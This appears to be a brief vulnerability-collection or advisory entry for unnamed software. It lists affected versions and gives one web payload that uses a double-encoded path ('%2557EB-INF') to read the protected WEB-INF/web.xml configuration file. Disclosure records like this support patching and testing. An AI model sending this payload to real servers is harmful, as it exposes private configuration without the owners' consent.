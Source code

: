 <languages />

Affected Versions
-----------------

    <= 9.4.40, <= 10.0.2, <= 11.0.2

Payload
-------

    /concat?/%2557EB-INF/web.xml